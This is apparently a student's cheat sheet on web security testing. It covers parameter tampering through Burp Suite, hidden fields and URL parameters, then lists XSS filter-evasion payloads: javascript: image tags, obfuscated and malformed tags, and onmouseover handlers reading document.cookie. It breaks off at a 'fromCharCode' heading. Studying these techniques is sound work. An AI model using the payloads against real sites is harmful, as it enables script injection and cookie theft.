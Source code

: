 # SC MST Cheat Sheet

###### tags: #SC 

## Table of Contents
```toc
```

## Parameter Tampering
### Tampering of Form Fields
- Form field values can be tampered on Burp Suite by intercepting packets and forwarding them

### Hidden Field
- If a website uses hidden fields to store status information, malicious user can tamper with the values stored in their browser and change the referred information
- Values can be modified via by inspecting elements in the web browser

### Tampering with URL Parameters
- URLs can show parameters and values can be modified:
```
# Original
https://www.example.com/defaut.asp?profile=123&value=123

# Modified (Statuses)
https://www.example.com/defaut.asp?profile=123&value=123&status=read
https://www.example.com/defaut.asp?profile=123&value=123&status=del
```

## XSS Filter Evasion
- Basic XSS Test
```html
<script>alert("Hello World!")</script>
```

### Image XSS Using JavaScript Directive
- No quotes or semicolons
```html
<img src=javascript:alert('XSS')>
```
- HTML entities
```html
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
- Grave accent obfuscation
```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
- Malformed `<a>` tags
```html
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
```
- Malformed `<img>` tags
```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
- `fromCharCode`